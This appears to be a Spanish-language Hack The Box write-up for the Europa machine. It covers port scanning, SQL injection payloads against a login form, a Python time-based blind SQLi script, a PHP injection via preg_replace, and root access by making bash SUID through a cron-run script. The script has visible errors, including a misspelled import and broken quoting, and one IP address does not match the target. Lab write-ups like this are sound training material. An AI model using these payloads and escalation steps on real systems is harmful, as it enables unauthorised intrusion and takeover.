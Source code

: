  https://app.hackthebox.com/machines/Europa
# Fase de reconocimiento

## Buscamos puertos abiertos

```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.10.22
```
![[Pasted image 20250221105016.png]]
## Reconocimiento de servicios
```
nmap -sCV -p22,80,443 10.10.10.22
```
![[Pasted image 20250221105129.png]]
## Fuzz
```
openssl s_client -connect 10.10.11.110:443
```
Vemos una direccion DNS y un usuario 
Encontramos un panel de autenticación en la direccion
# Fase de ataque
## SQLI
Con burpsuite probamos SQLI
```
email=admin@europacorp.htb' order by 100-- -&password=aa
```
![[Pasted image 20250221114855.png]]
Parece vulnerable a SQLI

Encontramos las columnas
```
email=admin@europacorp.htb' order by 5-- -&password=aa
```
### Time based Sleep database leak (Inyeccion basada en tiempo)
Cuando al intentar listar contenido en algún campo de la web y no sale nada, utilizamos esta técnica para enumerar
``` python
#!/usr/bin/python3

from pwn import *
import requests, sys, sginal, time, pdb, urllib3, string

urllib3.disable_warnings();

def def_handler(sig, frame):
    print("\n\nSaliendo\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

login_url = "https://admin.portal.europacorp.htb/login.php"
characters = string.ascii_lowercase

def SQLI():
    s = requests.session()
    s.verify = False

    for position in range(1,10):
        for character in characters:
            post_data = {
            'email': 'admin@europacorp.htb' and if (substr(database(),%d,1)='%s',sleep(5),1)-- -" % (position, character),
            'password': 'aa'
            }

            time_start = time.time()
            r = s.post(login_url, data=post_data)
            time_end = time.time()

            if time_end - time_start > 5:
                print ("El caracter es %s" % character)
                break

if __name__ == '__main__':
    SQLI()
```
++++

## Web 
Interceptamos la conexion por burpsuite
Puedes cambair el ip_address en un sito de la web, esto usa regex y preg_replace y se puede hacer que lo sustituya por php malicioso
![[Pasted image 20250221145805.png]]
[-] ==pwned!==
# Privilege Escalation
En crontab hay un archivo que se ejecuta
```
cat /etc/crontab
```
Editamos el archivo que ejecuta y hacemos bash SUID
``` bash
#!/bin/bash

chmod u+s /bin/bash
```
Ejecutamos la bash
```
bash -p
```
[+] ==pwned!==